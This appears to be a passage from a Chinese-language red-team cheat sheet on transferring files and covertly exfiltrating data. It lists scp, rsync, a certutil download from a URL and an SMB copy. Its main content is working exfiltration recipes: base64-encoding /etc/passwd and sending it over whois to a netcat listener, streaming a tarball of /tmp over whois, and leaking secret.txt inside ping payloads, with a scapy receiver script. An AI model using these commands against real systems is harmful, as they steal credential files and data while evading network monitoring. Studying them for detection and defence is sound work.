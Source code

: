 ```
scp user@host.com:/tmp file
```
rsync 
远程rsync服务器中拷贝文件到本地机 
```
rsync -av root@192.168.78.192::www /databack
```
本地机器拷贝文件到远程rsync服务器 
```
rsync -av /databack root@192.168.78.192::www
```
certutil.exe 
```
certutil.exe -urlcache -split -f http://site.com/file
```
copy
```
copy \\IP\ShareName\file.exe file.exe
```
WHOIS
接收端 Host B：
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d 
```
发送端 Host A：
```
whois -h host_ip -p 1337 `cat /etc/passwd | base64`
```

[WHOIS + TAR](https://twitter.com/mubix/status/1102780436118409216)
First:  
```
ncat -k -l -p 4444 | tee files.b64  #tee to a file so you can make sure you have it
```

Next
```
tar czf - /tmp/* | base64 | xargs -I bits timeout 0.03 whois -h host_ip -p 4444 bits
```

Finally
```
cat files.b64 | tr -d '\r\n' | base64 -d | tar zxv #to get the files out
```

PING
发送端:
```
xxd -p -c 4 secret.txt | while read line; do ping -c 1 -p $line ip; done
```
接收端`ping_receiver.py`:
```
import sys

try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")
    sys.exit(0)


def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```
